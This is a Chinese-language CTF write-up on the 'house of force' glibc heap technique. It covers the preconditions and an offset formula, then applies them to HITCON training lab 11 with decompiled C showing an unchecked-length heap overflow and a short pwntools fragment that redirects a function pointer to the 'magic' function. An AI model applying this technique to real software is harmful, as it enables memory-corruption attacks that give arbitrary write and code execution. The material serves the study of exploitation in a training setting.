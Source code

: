 ## 使用条件

1. 能够以溢出等方式控制到 top chunk 的 size 域
2. 能够自由地控制堆分配尺寸的大小

实现效果：任意地址读写

## 计算偏移

现在地址：topchunk 现在指向的地址

目标地址：往哪里写入的地址

* 往低地址移（负数）：``偏移=现在地址-目标地址-0x20``
* 往高地址移（正数）：``偏移=目标地址-现在地址``

## 例题

### HITCON training lab 11

#### 基本情况

用 chunk_ptr 和 chunk_size  两个列表维护，基于下标操作堆块。增删查改功能都有。

#### 漏洞

修改函数要求输入修改长度，对该长度没有限制，造成堆溢出：

```c
printf("Please enter the length of item name:", &buf);
read(0, &v4, 8uLL);
length = atoi(&v4);
printf("Please enter the new name of the item:", &v4);
//直接写入，没有对size进行检查
*(_BYTE *)(chunk_ptr_list[2 * v2] + (signed int)read(0, (void *)chunk_ptr_list[2 * v2], length)) = 0;
```

#### 思路

> fastbin 攻击 malloc_hook 方法和正常套路流程差不多，最后贴 exp 。

house of force 使用条件都满足，先明确将 topchunk 向上调多少。申请好等等用来溢出修改 topchunk size 的 chunk 之后，gdb 调试。

![image-20201103111102583](https://gitee.com/mrskye/Picbed/raw/master/img/20201103111102.png)

这里就直接将堆申请覆盖整个第一个堆块，距离计算：

```python
#(0x603010-0x603090)-0x20=-0xa0
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))
```

![image-20201103112332803](https://gitee.com/mrskye/Picbed/raw/master/img/20201103112332.png)
